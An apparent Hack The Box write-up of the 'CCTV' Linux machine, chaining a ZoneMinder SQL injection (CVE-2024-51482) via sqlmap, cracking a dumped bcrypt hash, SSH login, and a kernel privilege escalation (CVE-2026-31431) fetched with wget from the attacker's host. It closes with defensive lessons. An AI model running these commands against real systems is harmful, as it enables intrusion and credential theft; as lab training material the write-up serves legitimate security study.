










# HTB — CCTV (Medium/Linux)


## Summary

CCTV is a Linux machine featuring a web server hosting a custom corporate page and an instance of ZoneMinder v1.37.63. Enumeration of the ZoneMinder version reveals it is vulnerable to CVE-2024-51482, a Boolean-based SQL Injection. Using `sqlmap`, we can dump the backend MySQL database and extract a bcrypt password hash for the user `mark`. After cracking the hash with John the Ripper, SSH access is obtained. Running LinPEAS on the target identifies that the system kernel is vulnerable to CVE-2026-31431, known as "Copy Fail", an in-memory page-cache scratch-write bug. Executing a public Proof-of-Concept exploit temporarily patches the `/etc/passwd` file in memory, changing `mark`'s UID to 0 and granting a root shell.

**Attack Chain:** Nmap → Web Enum → ZoneMinder Version Disclosure → CVE-2024-51482 (SQLi) → Database Dump → John the Ripper → SSH → LinPEAS → CVE-2026-31431 ("Copy Fail") → Root

---

## Reconnaissance

### Port Scan

```bash
nmap -sC -sV -p- -oN nmap_cctv 10.129.45.45
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
```



The scan reveals two open ports: SSH (22) and HTTP (80). The web server redirects or identifies as **SecureVision CCTV & Security Solutions**. Adding `cctv.htb` to our     `/etc/hosts` file is necessary for proper virtual host routing.

---

## Web Enumeration

Navigating to `http://cctv.htb` displays the landing page for **SecureVision**, a security and CCTV monitoring company.



Directory brute-forcing or simply exploring the application leads us to the **/zm/** endpoint, which hosts a `ZoneMinder` login panel.



Logging in as a guest or checking accessible endpoints reveals the ZoneMinder console. In the top right corner, the exact version of the software is disclosed: **v1.37.63.**



---

## Exploitation — SQL Injection

Vulnerability Research

Researching **ZoneMinder v1.37.63 exploits** leads to a recent GitHub security advisory for **CVE-2024-51482**, a Boolean-based SQL Injection vulnerability affecting `versions 1.37.* <= 1.37.64.`



The vulnerability exists in `web/ajax/event.php` where the `tid` (TagId) parameter is improperly sanitized before being passed to a database query.

### Database Dumping via SQLMap

We can automate the exploitation of this Boolean-based blind SQLi using `sqlmap`. By capturing a valid session cookie, we target the `tid` parameter to dump the `Users` table from the `zm` database.

```bash
sqlmap -u "[http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1](http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1)" \
-D zm -T Users -C Username,Password --dump --batch \
--dbms=MySQL --technique=T \
--cookie="ZMSESSID=lderv275cqg5luacsak5avphlp"
```



The dump successfully extracts credentials for three users: `superadmin`, `mark`, and `admin`. `mark's` hash is particularly interesting as it might be reused for system-level access.

**Hash extracted:** `$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.`

---

## Hash Cracking

The extracted hash is in `bcrypt` format (`$2y$10$`). We save it to a file called `hash.txt` and use John the Ripper along with the `rockyou.txt` wordlist to crack it.

```bash
john zm_users_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result:** `opensesame`



---

## Initial Access — SSH

With the cracked password, we can attempt to access the machine via SSH as the user `mark`.

```text
ssh mark@cctv.htb
# Password: opensesame
```

The authentication is successful, granting us initial shell access to the system.

--- 

## Privilege Escalation — CVE-2026-31431 ("Copy Fail")

### Internal Enumeration

To find privilege escalation vectors, we transfer and execute `linpeas.sh` on the target.

```bash
wget [http://10.10.15.146/linpeas.sh](http://10.10.15.146/linpeas.sh)
chmod +x linpeas.sh
./linpeas.sh
```



Reviewing the LinPEAS output, the tool flags the system as highly vulnerable to **CVE-2026-31431**, also known as **"Copy Fail".**


"Copy Fail" is an `AF_ALG`/splice page-cache scratch-write bug in the Linux kernel that allows a local attacker to perform non-destructive writes to the page cache of read-only files (like `/etc/passwd`).

### Exploitation

We download the publicly available PoC exploit for CVE-2026-31431 to our local attack machine and transfer it to the target.



```bash
wget [http://10.10.15.146/exploit_cve_2026_31431.py](http://10.10.15.146/exploit_cve_2026_31431.py)
python3 exploit_cve_2026_31431.py --shell
```

The script works by patching `mark's` UID field in the in-memory page cache of `/etc/passwd` from `1000` to `0000`. After the cache is poisoned, the script executes `su mark`, which now sees `mark` as UID 0, instantly dropping a root shell.

---

## Post-Exploitation — Flags

Once root access is secured, we can retrieve both the `root.txt` and `user.txt` flags. Interestingly, the user flag was located in another user's directory (`/home/sa_mark/`).

```bash
cat /root/root.txt
cat /home/sa_mark/user.txt
```



---

## Lessons Learned

### Offensive Perspective

- Version Disclosure is Fatal: The exact version of ZoneMinder was clearly visible on the dashboard without requiring authentication, instantly providing the roadmap for the initial foothold.

- SQLi in IoT/Surveillance Apps: Security and CCTV applications like ZoneMinder are frequently targeted for vulnerabilities. Even Blind/Boolean SQL injections can completely compromise the application's database.

- Kernel Exploitation: The "Copy Fail" vulnerability demonstrates how memory-management bugs (like page-cache poisoning) provide highly reliable and clean privilege escalation paths without permanently breaking system files.

### Defensive Perspective

- Sanitize Database Inputs: The SQL injection in `web/ajax/event.php` occurred because the tid parameter was not parameterized. Always use Prepared Statements for database queries.

- Hide Version Information: Application versions should be stripped from headers, login pages, and dashboards to slow down automated or manual exploit research.

- Patch Management: The server was running a kernel vulnerable to CVE-2026-31431. Regular patching of the Linux kernel is critical to prevent Local Privilege Escalation (LPE).

--- 

## Attack Chain Summary

NMAP — ports 22, 80
↓
Web Enum — ZoneMinder v1.37.63 discovered
↓
Search CVEs — CVE-2024-51482 (Boolean SQLi) found
↓
sqlmap — Dump `Users` table → `mark` bcrypt hash
↓
John the Ripper + rockyou.txt → `opensesame`
↓
SSH as `mark`
↓
LinPEAS → Kernel vulnerable to CVE-2026-31431 ("Copy Fail")
↓
Execute `exploit_cve_2026_31431.py`
↓
Page-cache poisoning of `/etc/passwd` (UID 0)
↓
su mark → ROOT ✅
